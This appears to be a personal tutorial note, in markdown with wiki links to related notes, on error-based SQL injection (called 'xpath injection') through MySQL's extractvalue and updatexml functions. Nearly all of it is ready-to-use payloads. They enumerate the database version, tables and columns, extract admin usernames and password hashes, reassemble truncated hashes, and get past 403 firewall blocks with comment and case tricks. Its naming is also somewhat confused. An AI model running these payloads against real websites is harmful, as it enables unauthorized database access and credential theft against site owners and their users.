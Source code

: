 # <mark style="background: #FF5582A6;">Prerequisite :</mark> 
[[2-Sql Injection (Basic)]]
[[3-Sql Injection (Errors)]]
# <mark style="background: #FF5582A6;">Description :</mark> 
due to the problem of having XML files of a site, the xpath injection vulnerability is created (many site don't use XML files, so they don't have this vulnerability).

where do we use the xpath injection :
1. in [[2-Sql Injection (Basic)]] we encountering the following error :
	- <mark style="background: #FF5582A6;">the used SELECT statements have a different number of columns</mark> 

2. when we type (<mark style="background: #FF5582A6;">order by 9999--</mark> ) and show us we don't have this number of columns and we type (<mark style="background: #FF5582A6;">order by 1--</mark> ) and show us again we don't have this number of columns.

3. with this command : (<mark style="background: #FF5582A6;">union select 1,2,3,4,5,6,7,8,9--</mark> )
   doesn't show the vulnerability column.
   (in additio to xpath injection, we can also solve this problem with : [[15-Blind Sql Injection]])

4. before [[2-Sql Injection (Basic)]] we can also try xpath injection because these two, are two separate vulnerabilities.

# How To Do (Steps) :
## Step 1 :
90% of xpath injection is [[2-Sql Injection (Basic)]] command.
only the following command is new :
- <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,version()))--</mark> 
### Point 1 :
if it didn't show us anything in the first step with the first command :
- <mark style="background: #FFB86CA6;"><mark style="background: #FF5582A6;">'</mark> and extractvalue(rand(),concat(0x7e,version()))--<mark style="background: #FF5582A6;">+</mark> </mark> 

### <mark style="background: #FF5582A6;">Point 2</mark> :
[[7-Like (Method)]] can be used in combination with [[6-Limit (Method)]]
(it's explained on last point in [[7-Like (Method)]])
(<mark style="background: #FF5582A6;">reminder :</mark> like method, searches all databases to find the important table)

### Point 3 :
when we reached the important table and found it, for next step we return the limit to the first state, that is : limit 0,1

## Step 2 :
when we see the version, it's means that the vulnerability has been confirmed and the rest of the steps are similar to [[2-Sql Injection (Basic)]] :
- <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))--</mark> 
(limit is used because we don't have group_concat)

### Point :
to find the database, we have the following command :
- <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select schema from information_schema.schemata limit 0,1)))--</mark>
## Step 3 :
- <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select column_name from information_schema.columns where table_name='the important' table limit 0,1)))--</mark> 
### <mark style="background: #FF5582A6;">Point :</mark> 
the important table must be hexed

## Step 4 :
username and password extraction :
(for example : admin is the important table and user and pass are important columns)

- <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select concat(user) from admin limit 0,1)))--</mark> 

### <mark style="background: #FF5582A6;">Very Important Point 1 :</mark> 
with the following command, if the password is hashed, it will not be shown in full.
because the xpath injection can be print <mark style="background: #FF5582A6;">32 characters</mark> and one character is <mark style="background: #FF5582A6;">0x7e</mark> , so the hashed password in xpath injection is always <mark style="background: #FF5582A6;">incomplete</mark> .
to solve this problem, we type the first code (1), we write down the hashed password that is displayed then we type the second code (2), and we wirte down the second hashed password under the first hashed password (every character is below the character of the first hashed password, we add the additional characters of the lower password to the upper password) and <mark style="background: #FF5582A6;">complete the password</mark> .
(<mark style="background: #FF5582A6;">in second code, we delete the 0x7e</mark> )

1. <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select concat(pass) from admin limit 0,1)))--</mark> 

2. <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat((select concat(pass) from admin limit 0,1)))--</mark> 

### <mark style="background: #FF5582A6;">Important Point 2 :</mark> 
if we encounter an error with the second code (2), that is, we got an error by deleting 0x7e :
- [[13-Double Query]] Vulnerability

# Errors :
1. if in <mark style="background: #FF5582A6;">first step</mark> we encounter a <mark style="background: #FF5582A6;">403 error</mark> (Forbidden or Not Acceptable) :
	- <mark style="background: #FFB86CA6;">and <mark style="background: #FF5582A6;">/ * !12345</mark> extractvalue(rand(),<mark style="background: #FF5582A6;">CONCAT</mark> (0x7e,version())) <mark style="background: #FF5582A6;">* /</mark> --</mark> 
   in second step :
	- <mark style="background: #FFB86CA6;">and <mark style="background: #FF5582A6;">/ * !12345</mark> extractvalue(rand(),<mark style="background: #FF5582A6;">CONCAT</mark> (0x7e,(select table_name
	  from<mark style="background: #FF5582A6;">/ * * /</mark> information_schema./ * * /tables where table_schema=database()
	  limit 0,1))) <mark style="background: #FF5582A6;">* /</mark> --</mark> 
   we continue the steps and don't change the bypasses we added.
   
   ## Point 1 :
   before the last step, the important table should be hexed, but in the last step, we shouldn't write the important table in hex and also we shouldn't put quotation for the important table.

   ## Point 2 :
   in the last step (4), when we delete from "from" to "the important table", the / * * / bypass sticks to the important table and we encounter a Not Acceptable error.
   what to do ? we write <mark style="background: #FF5582A6;">the second concat</mark> with capital letters ---> <mark style="background: #FF5582A6;">CONCAT</mark> 
   
   - <mark style="background: #FFB86CA6;">and / * !12345extractvalue(rand(),CONCAT(0x7e,(select CONCAT(user)
	   from/ * * /the important table limit 0,1))) * /--</mark> 

2. if we encounter a <mark style="background: #FF5582A6;">403 error</mark> (Forbidden or Not Acceptable) in the <mark style="background: #FF5582A6;">second step</mark> (2) :
	in this case, we <mark style="background: #FF5582A6;">don't have a bypass</mark> , so we ignore the second and third steps and <mark style="background: #FF5582A6;">do the last step</mark> (4).
	
	- <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select concat(the important column) from the important table limit 0,1)))--</mark> 
	
	this method is similar to [[9-Version 4]]
	because we have to guess the important table and the important column.
	similar to the [[9-Version 4]], we can also use Burp Suite to guess, first, the important table and second, the important column.

3. if the version is shown in the first step (1), but the important table isn't shown in the second step (2).
    (it means that we don't encounter an any error and the important table doesn't show in web page)
    what to do ? the problem is solved with : <mark style="background: #FF5582A6;">xpath injection (updatexml).</mark> 
    the steps of this method are as follows :

	<mark style="background: #FF5582A6;">version :</mark> 
	
	1. <mark style="background: #FFB86CA6;">and <mark style="background: #FF5582A6;">updatexml</mark> (null,concat(<mark style="background: #FF5582A6;">0x3a</mark> ,version()),<mark style="background: #FF5582A6;">null</mark> )--</mark> 
	
	<mark style="background: #FF5582A6;">table :</mark> 
	
	2. <mark style="background: #FFB86CA6;">and <mark style="background: #FF5582A6;">updatexml</mark> (<mark style="background: #FF5582A6;">null</mark> ,concat(<mark style="background: #FF5582A6;">0x3a</mark> ,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),<mark style="background: #FF5582A6;">null</mark> )--</mark> 
	
	<mark style="background: #FF5582A6;">column :</mark> 
	
	3. <mark style="background: #FFB86CA6;">and <mark style="background: #FF5582A6;">updatexml</mark> (<mark style="background: #FF5582A6;">null</mark> ,concat(<mark style="background: #FF5582A6;">0x3a</mark> ,(select column_name from information_schema.columns where table_name=the important table is hexed limit 0,1)),<mark style="background: #FF5582A6;">null</mark> )--</mark> 
	
	
	<mark style="background: #FF5582A6;">extract information :</mark> 
	
	1. <mark style="background: #FFB86CA6;">and updatexml(null,concat(0x3a,(select concat(UserName,Password) from users limit 0,1)),null)--</mark> 
	
	(UserName and Password as important columns, and users as a important table are examples)

4. if the page doesn't load with the first step command, in the source code, look for the xpath error.

